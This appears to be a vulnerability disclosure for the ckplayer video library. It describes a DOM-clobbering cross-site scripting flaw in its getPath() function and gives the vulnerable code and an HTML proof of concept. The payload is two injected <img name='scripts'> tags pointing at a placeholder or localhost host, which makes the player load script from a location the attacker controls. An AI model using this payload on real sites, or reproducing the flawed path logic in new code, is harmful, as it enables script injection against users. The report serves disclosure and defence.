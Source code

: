 ## ckplayer

### Meta

+ Library: ckplayer
+ Stars: 1.1K
+ Version: latest
+ Payload: ```<img name="scripts" src="https://xxx.xxx.xxx/js/"><img name="scripts" src="https://xxx.xxx.xxx/js/">```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk


### Library

https://gitee.com/niandeng/ckplayer

### Vulnerable Code Snippet

```javascript
function getPath(siz) {
  var scriptList = document.scripts,
    thisPath = scriptList[scriptList.length - 1].src;
  for (var i = 0; i < scriptList.length; i++) {
    var scriptName = scriptList[i].getAttribute('name') || scriptList[i].getAttribute('data-name');
    var src = scriptList[i].src.slice(scriptList[i].src.lastIndexOf('/') + 1, scriptList[i].src.lastIndexOf('.'));
    if ((scriptName && (scriptName == 'ckplayer' || scriptName == 'ckplayer.min')) || (scriptList[i].src && (src == 'ckplayer' || src == 'ckplayer.min'))) {
      thisPath = scriptList[i].src;
      break;
    }
  }
  var path=thisPath.substring(0, thisPath.lastIndexOf('/js/') + 1);
  if(!isUndefined(siz)){
    path+=siz+'/';
  }
  return path;
}
```

### PoC
```html

<!--Library-->
<link type="text/css" rel="stylesheet" href="ckplayer/css/ckplayer.css" />
<script type="text/javascript" src="./ckplayer/js/ckplayer.js" charset="UTF-8"></script>
<div class="video" style="width: 600px;height: 400px;">播放器容器</div>
<script type="text/javascript">
    var videoObject = {
        language: 'en',
        container: '.video',
        video: 'https://fake-server/no.mp4'
    };
    var player = new ckplayer(videoObject);
</script>
<!--Library-->

<!--Payload-->
<img name="scripts" src="http://localhost:9999/js/">
<img name="scripts" src="http://localhost:9999/js/">
<!--Payload-->
```